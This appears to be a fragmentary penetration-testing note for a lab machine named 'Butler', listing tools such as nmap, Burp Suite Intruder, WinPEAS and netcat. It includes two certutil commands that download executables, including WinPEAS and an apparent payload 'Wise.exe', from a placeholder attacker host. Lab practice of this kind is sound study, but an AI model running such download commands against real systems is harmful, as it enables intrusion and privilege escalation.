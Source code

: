 #cybersecurity #hacking #penetration-testing 

# Butler Machine

## 1. nmap
## 2. 

Burp Suite Intruder

Winpease

Net Cat

```
certutil.exe -urlcache -f http://<ip>/winpeas.exe winpeas.exe
```

```
certutil -urlcache -f http://<ip>/Wise.exe Wise.exe
```